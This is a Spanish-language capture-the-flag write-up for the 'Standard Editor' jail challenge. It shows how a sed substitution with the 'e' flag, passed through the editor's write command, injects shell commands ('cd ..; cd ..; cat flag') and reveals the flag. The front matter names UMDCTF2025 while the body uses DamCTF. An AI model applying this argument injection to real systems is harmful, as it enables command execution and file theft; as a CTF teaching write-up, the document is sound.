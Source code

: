 ```yaml
---
title: Standard Editor - UMDCTF2025
author: Kesero
description: Reto basado escapar de un programa de apuntes por terminal mediante command injections
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor/img/2.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `evan`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Joel Fagliano has nothing on me. (flag is all caps)"

## Archivos

Este reto nos da el siguiente archivo.

- `conexión por netcat` : Contiene la conexión directa con el servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor).

## Analizando el reto

Al conectarnos por netcat podemos ver el siguiente mensaje.

```
    ┌──(kesero㉿kali)-[~]
    └─$ nc standard-editor.chals.damctf.xyz 6733

    [Sun May 11 20:22:15 UTC 2025] Welcome, editor!
    Feel free to write in this temporary scratch space.
    All data will be deleted when you're done, but files will
    first be printed to stdout in case you want to keep them.
    
    a
    ?
    b
    ?
    c
    ?

```

## Solver

En este reto tendremos que realizar un command injection a través del editor simulado que nos dan en el reto. Para ello como siempre en estos casos, tendremos que probar, probar y probar todo lo posible para observar cómo se comporta el servidor.

La primera suposición que podemos realizar es que el editor se trata de un editor de línea de comandos personalizados emulando algo parecido a el programa `ed`.

Por ejemplo, si queremos añadir líneas en este tipo de editores, con el comando `a` significa `append` y podemos añadir líneas al editor. Además si queremos finalizar la entrada de líneas, lo realizaremos mediante `.`. Ocurre de forma parecida con el comando `w` el cual nos permite ejecutar comandos.

Además, realizando pruebas podemos observar que las expresiones regulares están permitidas ya que observaremos que estamos habilitados para evaluar expresiones de sustitución.

Después de muchos intentos damos con el código para leer la flag. 

```
a
.
w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e
a
bruh
.
w f
q
```
Vamos a explicarlo línea por línea.

1. `a` empezamos a añadir líneas.
2. `.` finalizamos la entrada de líneas
3. `w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. Para comenzar, `w` permite escribir, `--expression=` nos permite evaluar y ejecuar a continuación. Por otro lado dentro de la expresión tenemos `s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. En la cual `s@.*@...@e` es una expresión de sustitución de `sed` con la flag `e`, que ejecuta el resultado como un comando de sistema.
Posteriormente, `.*` fuerza a capturar cualquier línea dentro del archivo. Acto seguido se sustituye por `cd ..; cd ..; cat flag` que cambia dos niveles arriba en el sistema de archivos y luego ejecuta `cat flag`

4. `a, bruh, .` Con esta combinación forzamos a que se ejecute el procesamiento de la expresión anterior.

5. `w f` Finalmente grabamos el contenido con `f` y guardamos el contenido. De esta manera, forzamos al sistema que interprete la expresión con ejecución.

6. `q` Por último, salimos del programa.

Realizando los pasos anteriores, obtenemos la flag.

```
  ┌──(kesero㉿kali)-[~]
  └─$ nc standard-editor.chals.damctf.xyz 6733

  [Mon May 12 16:19:16 UTC 2025] Welcome, editor!
  Feel free to write in this temporary scratch space.
  All data will be deleted when you're done, but files will
  first be printed to stdout in case you want to keep them.
  a
  .
  w --expression=s@.*@cd\ ..\;\ 
  cd\ ..\;\ cat\ flag@e
  0
  a
  bruh
  .
  w f
  5
  q
  sed: can't read s@vi\|vim\|emacs\|nano\|vscode\|notepad[+][+]\|code\|zed\|atom\|word\|office\|docs\|o365\|copilot\|cursor@ed(1)@ig: No such file or directory
  dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

## Flag
`dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}`